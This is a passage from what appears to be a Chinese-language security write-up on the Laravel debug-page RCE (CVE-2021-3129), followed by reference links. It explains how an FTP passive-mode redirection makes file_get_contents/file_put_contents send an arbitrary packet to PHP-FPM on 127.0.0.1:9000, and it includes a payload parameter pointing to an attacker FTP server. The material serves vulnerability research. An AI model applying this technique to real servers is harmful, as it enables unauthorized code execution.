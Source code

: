 ![](image/laravel-6.png)

### 利用FTP与PHP-FPM进行交互

由于我们可以运行file_get_contents来查找任何东西，因此，可以通过发送HTTP请求来扫描常用端口。结果发现，PHP-FPM似乎正在侦听端口9000。

众所周知，如果我们能向PHP-FPM服务发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与gopher://协议结合使用，curl支持gopher://协议，但PHP却不支持。

另一个已知的允许通过TCP发送二进制数据包的协议是FTP，更准确的说是该协议的被动模式：如果一个客户端试图从FTP服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个特定的IP和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的一个端口，如果它愿意的话。

现在，如果我们尝试使用viewFile=ftp://evil-server.lexfo.fr/file.txt来利用这个漏洞，会发生以下情况：

file_get_contents()连接到我们的FTP服务器，并下载file.txt。

file_put_contents()连接到我们的FTP服务器，并将其上传回file.txt。

您可能已经知道这是怎么回事：我们将使用FTP协议的被动模式让file_get_contents()在我们的服务器上下载一个文件，当它试图使用file_put_contents()把它上传回去时，我们将告诉它把文件发送到127.0.0.1:9000。

这样，我们就可以向PHP-FPM发送一个任意的数据包，从而执行代码。

利用这种方法，在我们的目标上成功地利用了该漏洞。

## 参考文章

[米斯特团队|漏洞分析 | Laravel Debug页面RCE（CVE-2021-3129）分析复现](https://mp.weixin.qq.com/s/k08P2Uij_4ds35FxE2eh0g)

[陌陌安全|FTP利用|LARAVEL的那个RCE最有趣的点在这里](https://mp.weixin.qq.com/s/UPf62W0LoOGsFAdH4uqBcQ)

[原作者漏洞分析](https://www.ambionics.io/blog/laravel-debug-rce)